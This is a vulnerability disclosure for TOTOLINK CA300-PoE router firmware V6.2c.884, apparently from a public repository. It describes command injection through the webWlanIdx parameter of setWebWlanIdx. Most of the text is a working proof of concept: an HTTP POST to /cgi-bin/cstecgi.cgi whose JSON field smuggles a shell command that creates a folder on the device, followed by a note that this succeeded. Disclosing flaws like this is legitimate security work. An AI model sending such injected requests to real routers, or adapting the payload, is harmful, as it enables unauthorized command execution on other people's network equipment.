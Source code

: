 # TOTOLINK  CA300-PoE V6.2c.884 was discovered to contain a command injection vulnerability via the webWlanIdx parameter in the function setWebWlanIdx

## Description

`TOTOLINK` Router **CA300-PoE V6.2c.884** was found to contain a command injection vulnerability in `setWebWlanIdx`.

## ![image-20230112103759214](images/1.png)

## Firmware information

* Manufacturer's address:https://www.totolink.net/
* Firmware download address : https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/139/ids/36.html



## Affected version

**Version: V6.2c.884**

![image-20230112103905821](images/2.png)

## Vulnerability details

POC1:

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.254
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:108.0) Gecko/20100101 Firefox/108.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 100
Origin: http://192.168.0.254
Connection: keep-alive
Referer: http://192.168.0.254/adm/network_daig.asp?timestamp=1673492576260
Cookie: SESSION_ID=2:1673492439:2

{"topicurl" :"setting/setWebWlanIdx", "webWlanIdx": "1>/tmp/test.txt|mkdir /webWlanIdx_1111;"}
```

Folder created successfully

![image-20230113104559430](images/3.png)

![image-20230113104730383](images/4.png)

![image-20230112223826938](images/5.png)